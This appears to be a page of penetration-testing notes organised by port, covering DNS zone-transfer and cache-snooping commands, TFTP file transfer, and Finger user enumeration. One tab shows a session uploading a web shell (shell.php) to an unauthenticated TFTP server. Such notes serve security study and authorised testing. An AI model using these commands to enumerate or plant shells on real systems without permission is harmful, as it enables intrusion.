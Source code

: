 ## 53 - DNS

{% tabs %}
{% tab title="Enum Tools" %}
* [https://www.kali.org/tools/dnsrecon/](https://www.kali.org/tools/dnsrecon/)
* [https://www.kali.org/tools/dnsenum/](https://www.kali.org/tools/dnsenum/)

```
# dnsrecon -d [domain] -t axfr
# dnsenum [domain]
```
{% endtab %}

{% tab title="Cache Snooping" %}
DNS Cache Snooping - You can use the simple 'dig' command to explore what is saved in the target DNS Cache. Make sure you make these requests non-recursively so you do not contaminate the current cache.

* _Hacking: The next generation - DNS Cache Snooping, pg. 86_

```
#dig @targeterver.example.com testdomain.com A +norecurse
```
{% endtab %}
{% endtabs %}

## 69 - TFTP

{% tabs %}
{% tab title="Enumeration" %}
```
tftp [target] PUT local_file
tftp [target] GET example.txt
```
{% endtab %}

{% tab title="Shell Upload" %}
If unauthenticated access is allowed with write permissions, you can upload a shell:

```
$ tftp $ip
tftp> ls
?Invalid command
tftp> verbose
Verbose mode on.
tftp> put shell.php
Sent 3605 bytes in 0.0 seconds [inf bits/sec]
```
{% endtab %}
{% endtabs %}

## 79 - Finger

{% tabs %}
{% tab title="User enumeration" %}
```
#finger username@domain.com
```
